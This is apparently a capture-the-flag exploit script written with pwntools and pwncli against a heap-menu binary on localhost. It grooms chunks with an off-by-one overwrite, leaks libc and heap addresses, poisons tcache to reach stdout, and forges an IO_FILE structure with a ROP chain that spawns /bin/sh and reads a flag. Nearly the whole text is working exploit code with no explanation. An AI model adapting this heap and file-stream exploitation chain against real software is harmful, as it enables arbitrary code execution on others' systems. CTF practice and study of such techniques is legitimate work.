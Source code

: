 from pwn import *
from pwncli import *

context(os="linux",arch="amd64")
#f=process("./llk")
f=remote("127.0.0.1", 10000)
libc=ELF("./libc.so.6")
#gdb.attach(f)

def menu(number):
    f.recvuntil(b">> ")
    f.sendline(str(number))

def add(size,content):
    menu(1)
    f.sendlineafter(b": ",str(1))
    f.sendlineafter(b": ","m")
    f.sendlineafter(b"Size: ",str(size))
    f.sendafter(b"Content:",content)


def show(index):
    menu(2)
    f.sendlineafter(b": ",str(index))
    f.sendlineafter(b">> ",str(2))



def delete(index):
    menu(3)
    f.sendlineafter(b": ",str(index))
    f.sendlineafter(b">> ",str(2))

add(0x410,"0")#0
add(0x120,"0")#1
add(0x410,"0")#2 合并3的
add(0x440,"0")#3 
add(0x40,"0")#4 off by one写5
add(0x4d0,"0")#5 合并6的
add(0x410,"0")#6
add(0x10,"0")#7 防止合并的

delete(0)
delete(3)
delete(6)
delete(2)

payload=0x410*b"a"+p64(0)+p8(0xa0)+p8(0x4)
add(0x430,payload)# 0 对应原来2
add(0x410,"0")# 2 对应原来6
add(0x410,"0")# 3 对应原来0
add(0x420,"0")# 6 对应原来的3+0x20

delete(3)# 原来0
delete(6)# 原来3+0x20


add(0x410,p64(0)) # 3 原来0
add(0x420,"0") # 6 原来3+0x20

delete(6)
delete(2)
delete(5)


payload=0x4e0*b"a"
add(0x4f0,payload)# 2 原来5
add(0x3f0,"0") # 5 原来6+0x20
add(0x420,"0") # 6  原来3+0x20

delete(4) # 4
payload=0x40*b"a"+p64(0x4a0)
add(0x48,payload) # 4

delete(2)

add(0x10,"0") # 2
show(6) # unsorted bin addr

f.recvuntil("Introduction: ")
unsorted_bin_addr=f.recvuntil("\n")[:-1]
unsorted_bin_addr=u64(unsorted_bin_addr+2*b"\x00")
print("unsorted_bin_addr",hex(unsorted_bin_addr)) # -0x219ce0

libc_base=unsorted_bin_addr-0x219ce0
pop_rdi = libc_base + 0x000000000002a3e5
pop_rsi = libc_base + 0x000000000002be51
pop_rdxr12 = libc_base + 0x000000000011f0f7
ret = libc_base + 0x0000000000029cd6
pop_rax = libc_base + 0x0000000000045eb0
pop_rbp = libc_base + 0x000000000002a2e0
leave_ret = libc_base + 0x000000000004da83
close = libc_base + libc.sym['close']
read = libc_base + libc.sym['read']
write = libc_base + libc.sym['write']
syscallret = libc_base + next(libc.search(asm('syscall\nret')))
stdout = libc.sym['_IO_2_1_stdout_'] + libc_base
system=libc_base+libc.sym["system"]
add(0x300,"0") # 8
add(0x130,"0") # 9
add(0x3f0,"0") # 10
add(0x120,"0") # 11

add(0x3f0,"0") # 12
delete(12)

delete(8)
show(6) # heap addr

f.recvuntil("Introduction: ")
heap_addr=f.recvuntil("\n")[:-1]
heap_addr=int.from_bytes(heap_addr,"little")
heap_addr=heap_addr<<12
print("heap_addr",hex(heap_addr))


add(0x300,"0")# 8
delete(4)
delete(10)

payload=p64(((heap_addr + 0x1080) >> 12) ^ (stdout))[:-1]
payload=0x18*b"a"+p64(0x401)+payload
add(0x40,payload)#4




file1 = IO_FILE_plus_struct()
file1.flags = 0
file1._IO_read_ptr = pop_rbp
file1._IO_read_end = heap_addr + 0x1080  - 8
file1._IO_read_base = leave_ret
file1._IO_write_base = 0
file1._IO_write_ptr = 1
file1._lock = heap_addr 
file1.chain = leave_ret
file1._codecvt =stdout
file1._wide_data =stdout - 0x48
file1.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20
print("vatable vaule",hex(file1.vtable))


flag_addr = heap_addr+ 0x100+0x1080
payload = p64(pop_rdi) +p64(flag_addr) +p64(system)+ p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscallret) + p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_addr) + p64(pop_rdxr12) + p64(0x50) + p64(0) + p64(read) + p64(pop_rdi) + p64(1) + p64(write)
payload = payload.ljust(0x100, b'\x00')
payload += b'/bin/sh\x00'


add(0x3f0,  payload) #10

add(0x3f0, bytes(file1))

f.interactive()
